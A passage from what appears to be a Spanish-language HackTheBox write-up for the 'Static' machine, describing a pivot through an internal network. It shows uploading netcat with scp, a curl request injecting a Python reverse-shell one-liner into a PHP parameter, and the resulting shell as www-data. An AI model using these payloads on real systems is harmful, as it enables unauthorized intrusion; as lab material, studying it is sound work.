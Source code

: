 <img src="/assets/HTB/Static/ls.png">

Recordemos que en la máquina `pki` tenemos acceso al segmento 192.168.0.0/24. Directamente no tenemos conectividad con nuestra máquina de atacante por lo que primero debemos entablar una reverse shell con la máquina `web`. Primero debemos subir un binario de netcat compilado ya que no dispone de esta herramienta

```bash
❯ scp -P 2222 -i id_rsa nc www-data@10.10.10.246:/tmp/nc
```

Nos ponemos en escucha en el puerto 4646 en la máquina `web` y ejecutamos curl junto oneliner en python

```bash
curl -s -G -X GET "http://localhost/index.php" --data-urlencode "a=/usr/bin/python3.6 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.254.2\",4646));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'" | awk "/' - /,/: cannot open/" | sed "s/' - //" | grep -v cannot
```

```bash
www-data@web:/tmp$ ./nc -nlvp 4646
Connection from 192.168.254.3:41876
/bin/sh: 0: can't access tty; job control turned off
$ www-data
$ whoami
www-data
$ hostname 
pki
```
